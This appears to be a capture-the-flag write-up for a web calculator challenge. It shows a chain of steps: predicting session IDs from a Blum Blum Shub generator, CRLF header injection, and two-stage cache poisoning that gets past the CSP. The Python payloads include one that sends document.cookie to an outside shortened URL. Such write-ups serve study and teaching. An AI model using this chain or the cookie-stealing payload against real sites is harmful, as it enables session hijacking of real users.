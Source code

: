 - **Session management**: The `calc_session` session is managed through both cookies and URL parameters, with the session ID being passed through request and response headers (`X-Calc-Session`) to ensure proper caching.
- **Caching behavior**: Caching is handled based on TTL and cache-control headers, and cookies are stripped for caching purposes to avoid caching issues related to sessions.
- **Embed URL handling**: Requests to `/embed/` are handled uniquely with hashing to separate cache entries.
#### Backend
- CSP
There's a strict CSP that allows only scripts loaded from samesite
`Content-Secutity-Policy: default-src 'self'; script-src 'self' ; style-src 'self' 'unsafe-inline'; img-src 'self' data: https:; font-src 'self' https:; connect-src 'self' https:; frame-ancestors 'self'; object-src 'none'; base-uri 'self'; form-action 'self';`
## Exploitation
1. Predict **calc_session** and **expression_id**
The rng uses **blum blum shub**
```python
def random():
    # blum blum shub
    xn = time.time_ns()
    while True:
        xn = (xn * xn) % M
        yield xn
```
And the expression id is built like this:
```python
g.calc_session_id = request.cookies.get('calc_session',str(next(rng)))
[...]
_id = f"{original}{g.calc_session_id}{str(next(rng))}"
expression_id = hashlib.sha256(_id.encode()).hexdigest()
```
So \_id will be like `2+2-PREV-NEXT`
???

2. XSS via HTTP Response Header Injection
`GET /view/ID?calc_session=1%0d%0a%0d%0a</script>alert(1)</script>`
But the CSP doesn't allow the execution of inline scripts.

3. Cache poisoning
To achieve XSS I have just to poison two pages:
- the first with the xss payload
```python
xss_payload = "top.location=`//t.ly/OTzDs?`+document.cookie;" 
requests.get(f'/embed/X?calc_session={session_id}%0d%0a%0d%0a{xss_payload}')
```
- the second with a script that loads the first poisoned page
```python
xss_payload = "<script src='/embed/X'></script>" 
requests.get(f'/embed/{expression_id}?calc_session={session_id}%0d%0a%0d%0a{xss_payload}')
```
**NOTE**: The poisoned page returns content length of 29, so the XSS payloads has to be short.

4. Call the bot and xss will be triggered
